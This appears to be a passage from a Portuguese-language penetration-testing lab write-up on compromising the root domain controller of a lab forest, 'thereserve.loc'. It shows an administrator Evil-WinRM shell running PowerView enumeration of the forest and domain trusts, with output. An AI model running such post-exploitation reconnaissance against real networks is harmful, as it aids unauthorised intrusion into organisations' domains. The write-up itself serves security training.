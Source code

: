 ![](img/32d0e9a9349269e7d689d82df192b796.png)

# 12. Comprometendo o Domínio ROOTDC

Para poder fazer uma análise melhor de todo o AD será usado o  `PowerView.ps1`

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-ADForest


ApplicationPartitions : {DC=ForestDnsZones,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=corp,DC=thereserve,DC=loc, DC=DomainDnsZones,DC=bank,DC=thereserve,DC=loc}
CrossForestReferences : {}
DomainNamingMaster    : ROOTDC.thereserve.loc
Domains               : {bank.thereserve.loc, corp.thereserve.loc, thereserve.loc}
ForestMode            : Windows2012R2Forest
GlobalCatalogs        : {ROOTDC.thereserve.loc, BANKDC.bank.thereserve.loc, CORPDC.corp.thereserve.loc}
Name                  : thereserve.loc
PartitionsContainer   : CN=Partitions,CN=Configuration,DC=thereserve,DC=loc
RootDomain            : thereserve.loc
SchemaMaster          : ROOTDC.thereserve.loc
Sites                 : {Default-First-Site-Name}
SPNSuffixes           : {}
UPNSuffixes           : {}



*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-NetDomainTrust -Domain corp.thereserve.loc

SourceName          TargetName       TrustType TrustDirection
----------          ----------       --------- --------------
corp.thereserve.loc thereserve.loc ParentChild  Bidirectional



*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-NetDomainTrust -Domain bank.thereserve.loc

```